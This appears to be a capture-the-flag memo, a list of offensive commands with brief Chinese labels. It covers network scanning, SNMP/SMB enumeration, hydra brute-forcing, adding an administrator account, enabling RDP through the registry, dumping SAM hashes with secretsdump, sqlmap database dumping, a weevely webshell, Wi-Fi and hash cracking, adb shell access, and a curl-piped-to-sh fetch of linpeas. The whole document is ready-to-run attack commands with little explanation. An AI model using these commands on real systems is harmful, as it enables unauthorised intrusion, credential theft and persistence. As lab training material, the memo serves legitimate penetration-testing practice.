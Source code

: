 # CTF Memo
## _nmap_
網路設備及服務掃描
```sh
sudo nmap 10.10.10.16  //1000 port
sudo nmap 10.10.10.16 -p-  //1-65535 port
sudo nmap 10.10.10.16 -sU -p53,139,161,1900,5353  //UDP port
sudo nmap 10.10.10.16 -p80 --reason  //REASON
sudo nmap 10.10.10.16 -p80 --open  //display only open port ip
sudo nmap 10.10.10.16 -O  //OS
sudo nmap 10.10.10.16 -sV  //VERSION
sudo nmap 10.10.10.16 -sVC -p445,3389  //VERSION + NSE
sudo nmap 10.10.10.* -sU -p161 --open  //SNMP
sudo nmap 10.10.10.16 -sU -p161 -sC  //使用 NSE 預設腳本
sudo nmap 10.10.10.16 -sU -p161 --script snmp-win32-users  //user account

```
## _snmp-check_
SNMP 設備列舉
```sh
sudo snmp-check 10.10.10.16
```
## _nbtscan_
NetBOIS 掃描
```sh
sudo nbtscan 10.10.10.1-254
```
## _hydra_
破密工具
```sh
hydra -L win32-users.txt -P /usr/share/wordlists/nmap.lst smb://10.10.10.16
hydra -L win32-users.txt -P /usr/share/wordlists/nmap.lst ftp://10.10.10.16
```
## _enum4linux_

列舉Windows訊息
```sh
sudo enum4linux -u king -p 'slave' -a 10.10.10.16
```
## _crackmapexec_
網域滲透工具
python3 -m pip install --upgrade impacket  (更新)
```sh
sudo crackmapexec smb 10.10.10.16 -u king -p 'slave' --shares
```
## _net_

```sh
net use \\10.10.10.16 slave /u:king
net view \\10.10.10.16
net user queen /add
net users
net localgroup Administrator queen /add
net localgroup Administrators
```
## _reg add_

新增機碼
```sh
reg add "HKEY_LOCAL_MACHINE\SYSTEM\CurrentControlSet\Terminal Server" /v fDenyTSConnections /t REG_DWORD /d 0 /f
```
## _netstat_
網路狀態
```sh
netstat -an | findstr :3389
```
## _sqlmap_
SQL檢測注入工具
```sh
sudo sqlmap -u "https://url" --cookie="<COOKIE>" --dbs
sudo sqlmap -u "https://url" --cookie="<COOKIE>" -D DB_name --tables
sudo sqlmap -u "https://url" --cookie="<COOKIE>" -D DB_name -T Table_name --columns --technique=B
sudo sqlmap -u "https://url" --cookie="<COOKIE>" -D DB_name -T Table_name --dump --technique=B
```
## _weevely_
Webshell
```sh
weevely generate king backdoor.php  //生成
weevely http://ip:port/backdoor.php king  //連接
```
## _wpscan_
WordPress安全性掃描工具
```sh
wpscan --url http://url -e u  //列舉使用者
wpscan --url http://url -P /usr/share/wordlists/nmap.lst  //破密
```
## _pwdump_

```sh
reg save hklm\sam pwdump\sam
reg save hklm\system pwdump\system
impacket-secretsdump LOCAL -system pwdump/system -sam pwdump/sam -outputfile pwdump/10.10.10.10
ophcrack (執行程式破密)
```
## _john_
破密工具
```sh
john secret.txt --format=raw-md5
```
## _aircrack_

```sh
aircrack-ng WEPooo.cap
aircrack-ng WPA2ooo.cap -w /usr/share/wordlists/nmap.lst
```
## _linPEAS_

```sh
curl -L https://github.com/peass-ng/PEASS-ng/releases/latest/download/linpeas.sh | sh
```
## _Android_

```sh
nmap -p5555 10.10.10.* --open
sudo apt install -y adb
adb connect 10.10.10.20:5555
adb devices
adb shell
adb pull /system/app/cindy.apk E:\Cindy\  //get file
```
## _impacket upgrade_

```sh
python3 -m pip install --upgrade impacket
```
## _gzip_

```sh
sudo gzip -d /usr/share/wordlists/rockyou.txt.gz
```
## _snow_

```sh
snow -C -p pass -m "message" text1.txt text2.txt
snow -C -p pass text2.txt text3.txt
```
## _mount_

```sh
mount -t cifs //10.10.10.20/C$ /mnt/smb -o username=king,password=slave
```
## _smbclient_

```sh
smbclient -U "kingdom\king"  //10.10.10.20/C$
```
## _others_

```sh
njRAT
SNOW
OpenStego
HashMyFiles
VeraCrypt
CrypTool
ophcrack
```
## License

MIT
